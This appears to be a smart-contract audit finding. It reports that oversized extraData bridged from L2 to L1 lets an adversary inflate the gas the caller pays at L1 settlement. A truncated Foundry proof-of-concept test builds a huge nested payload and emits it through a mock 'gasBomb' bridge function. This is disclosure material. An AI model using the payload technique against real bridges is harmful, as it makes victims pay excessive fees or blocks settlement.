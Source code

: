 whatever is submitted as extraData in L2 is also emited on L1, consider that transaction gas fee is cheap in L2 when emitting large data, fi the extraData byte string is long, event emission can be very costly, and the adversary can force the caller to pay large gas fee when settle the transaction in L1 that is bridged from L2.

As shown in the Coded POC, if the emitted extraData is large and long, the transaction can quickly run out of gas.

https://drive.google.com/file/d/1ls3B1zA0YJQQ-p0JwBpjZv0xQJLsP_W9/view?usp=sharing

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.12;
import "forge-std/Test.sol";
import "forge-std/console.sol";

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "../src/Mock/NormalERC20.sol";

contract Bridge {

    event Deposit(bytes data);

    function gasBomb(bytes memory data) public {
        emit Deposit(data);
    }

}

contract POCTest is Test {
    
    // hacker address
    address hacker = vm.addr(1);
    NormalERC20 token;
    Bridge bridge;

    function setUp() public {
        token = new NormalERC20();
        bridge = new Bridge();
    }

    function testReaonsableGasOne() public {
        bytes memory data = "hihiihihihi";
        for(uint256 i; i < 10; ++i) {
            data = abi.encode(data, address(0));
        }
        bridge.gasBomb(data);
    }

    function testReaonsableGasTwo() public {
        bytes memory data = "hihiihihihi";
        for(uint256 i; i < 100; ++i) {
            data = abi.encode(data, address(0));
        }
        bridge.gasBomb(data);
    }

    function testUnboundedGas() public {
        bytes memory data = "hihiihihihi";
        for(uint256 i; i < 1000000; ++i) {
            data = abi.encode(data, address(0));
        }
        bridge.gasBomb(data);
    }
```